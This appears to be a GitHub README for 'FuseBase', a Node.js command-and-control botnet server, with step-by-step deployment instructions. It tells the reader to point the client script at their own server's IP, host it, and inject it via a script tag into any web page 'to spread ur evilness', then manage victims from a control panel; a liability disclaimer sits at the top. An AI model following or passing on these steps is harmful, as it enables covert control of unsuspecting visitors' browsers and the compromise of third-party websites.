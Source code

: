 # FuseBase
A C&C ~botnet~ server made in nodejs

# NOTE
I don't take any responsibility for what you will do with this software/code.
Remember that running malicious code on someone's machine without their knowledge is illegal.

# Prerequisities
1. Latest Nodejs

# How to:
## Step 1: Fork, Clone & Install
1. Fork this repo (it will be handy later, altho you can skip this if you have a place to host js files)
2. Clone/Download the repo to your PC
3. Run `npm install` in the root

## Step 2: Run and JS inclusion
1. Run `npm start` in the root dir
2. Edit `src/client/client.js` with any text editor and change the `nodeJsIp` const to `http://yourip:3000` (you might wanna get a DDNS)
3. (Here is where the hosting part comes in) grab a link to `src/client/client.js` and include it wherever u wanna spread ur evilness (or goodness depending on what ur doing) AKA normal `<script src="link"></script>` anywhere in the html.
4. Get into the W.I.P Control Panel `yourip:3000`

## Step 3: Use existing modules or write your own:
See the [Documentation](https://lukas2005.github.io/FuseBase/)
